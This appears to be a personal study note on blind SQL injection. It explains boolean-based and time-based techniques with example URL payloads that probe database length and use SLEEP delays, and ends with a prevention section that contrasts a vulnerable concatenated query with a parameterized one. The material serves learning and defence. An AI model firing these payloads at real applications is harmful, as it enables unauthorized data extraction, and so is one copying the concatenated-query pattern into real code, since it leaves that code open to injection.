

---
title:
draft:
tags:
related:
---




## **Blind-Based SQL Injection**

Blind-based SQL Injection is a class of SQL injection attacks where the application does not return database error messages or visible data directly. Instead, the attacker infers information indirectly through _behavioral changes_, _boolean responses_, or _time delays_.

It is used when the application is vulnerable to SQLi but suppresses output, making classical error-based extraction impossible.

#### **Boolean-Based Blind SQLi**

The application returns different outcomes based on whether the SQL condition is *true* or *false*.  
Examples of observable differences:
- Page content changes  
- Response codes differ  
- Redirect occurs vs. no redirect  
- Content length differs (most common)

```sql
SELECT IF((SELECT count FROM product WHERE id = $ID) > 1 , 1 , 0 )
```

**Example Payload**
```sql
?id=10 AND 1=1     -- True, normal page
?id=10 AND 1=2     -- False, altered page
?id=10 AND 1=IF(2>1,1,0) -- True
?id=10 AND 1=IF(1>1,1,0) -- false
```

```sql
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>1,1,0)--  true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>2,1,0)--  true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>3,1,0)--  true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>4,1,0)--  true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>5,1,0)--  false
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))=5,1,0)--  true
```

**Goal:** Infer data by asking the database a series of yes/no questions.

#### **Time-Based Blind SQLi**

When the application returns identical responses regardless of true/false conditions, the attacker uses database sleep functions to detect conditions based on *response time*.

**Example Payload**
```
?id=10 AND IF(SUBSTRING(@@version,1,1)='5', SLEEP(5), 0)
```

**Goal:** Use controlled delays to extract data bit-by-bit.

> [!success]- How to prevent SQL injection
>
>You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".
>
>The following code is vulnerable to SQL injection because the user input is concatenated directly into the query:
>
>```
>String query = "SELECT * FROM products WHERE category = '"+ input + "'"; Statement statement = connection.createStatement(); ResultSet resultSet = statement.executeQuery(query);`
>```
>
>You can rewrite this code in a way that prevents the user input from interfering with the query structure:
>
>```
>PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); statement.setString(1, input); ResultSet resultSet = statement.executeQuery();`
>```
>
>You can use parameterized queries for any situation where untrusted input appears as data within the query, including the `WHERE` clause and values in an `INSERT` or `UPDATE` statement. They can't be used to handle untrusted input in other parts of the query, such as table or column names, or the `ORDER BY` clause. Application functionality that places untrusted data into these parts of the query needs to take a different approach, such as:
>
>- Whitelisting permitted input values.
>- Using different logic to deliver the required behavior.
>
>For a parameterized query to be effective in preventing SQL injection, the string that is used in the query must always be a hard-coded constant. It must never contain any variable data from any origin. Do not be tempted to decide case-by-case whether an item of data is trusted, and continue using string concatenation within the query for cases that are considered safe. It's easy to make mistakes about the possible origin of data, or for changes in other code to taint trusted data.


